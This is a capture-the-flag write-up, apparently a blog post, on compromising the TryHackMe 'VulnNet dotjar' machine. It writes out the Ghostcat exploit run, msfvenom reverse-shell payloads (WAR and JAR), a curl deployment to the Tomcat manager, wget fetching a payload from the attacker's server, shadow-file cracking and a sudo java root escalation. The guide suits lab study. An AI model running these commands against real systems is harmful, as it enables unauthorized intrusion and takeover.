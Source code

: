 ```yaml
---
title: Vulnet dotjar
layout: post
author: Bit Criminals Team
date: 2021-05-12 17:02:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://tryhackme.com/room/vulnnetdotjar
---
```


Let's start our daily routine nmap scan:

![](/images/dotjar1.png)

So, we get a 8009 port and a 8080 port on which Apache Tomcat is running.Well,the 8009 was new to me at least.

I then ran gobuster for port 8080 and here's what I got

![](/images/dotjar4.png)

I tried to login to the /manager/ directory but it asked for username and password.I was able to login to /host-manager/ but it was of no help.

After searching a bit,I finally found a help 
from my bestie-Google.I found a article about a exploit named **Ghostcat** CVE-2020-1938.

```https://book.hacktricks.xyz/pentesting/8009-pentesting-apache-jserv-protocol-ajp```

Then,I searched for this exploit with searchsploit and look I found a python script:multiple/webapps/48143.py 

![](/images/dotjar2.png)

Finally I ran the python script.

```python 48143.py <boxip>```

![](/images/dotjar3.png)

and here we go.We get a username and a password ***webdev:Hgj3LA$02D$Fa@21***.That's what we wanted. 

Then,again I started to look for some exploits to hack the Tomcat apache server running in port 8080
and google again prove it's supremacy.

https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/

Reading this article I understood that we had to create a reverse shell and then upload it to port 8080.
I also understood that the exploit must be a war file.Here's what I came up with msfvenom. 

```msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=1234 -f war > shell.war```

Then, I uploaded it with curl command as follows

``` curl -u 'webdev:Hgj3LA$02D$Fa@21' --upload-file shell.war  "http://ip:8080/manager/text/deploy?path=/monshell"```

Listening to the given port,1234 as given in the exploit in this case,I opened the /monshell/ directory in which I had uploaded the shell.

And,yes we get a shell and I was logged in as 'web'

![](/images/dotjar5.png)

After searching a bit we found a backup file of shadow in the /var/backups folder so we copied it to /tmp and gunzipped it to retrieve the shadow file.

![](/images/jar.png)

Then we cracked the password hash for jdk-admin using john and logged in as jdk-admin

![](/images/jar2.png)

Now we can view the user flag..

![](/images/jar3.png)

After doing **sudo -l** we found that we have root permissions to run any java file.

![](/images/jar4.png)

So we created an exploit using msfvenom 

```py
msfvenom -p java/shell_reverse_tcp lhost=<local ip> lport=1234 -f jar -o pwn.jar

```
Then i opened a http-server and transferred the payload to the shell using wget 

![](/images/jar5.png)

```py
python3 -m http.server 80
wget <local ip>/pwn.jar --output-document=pwn.jar
```
And opened a listening port 1234 in my terminal and ran the .jar file in the shell.Thus we got the root access 

```py
sudo /usr/bin/java -jar pwn.jar
```
Now we can view the root flag as well!!

![](/images/jar6.png)




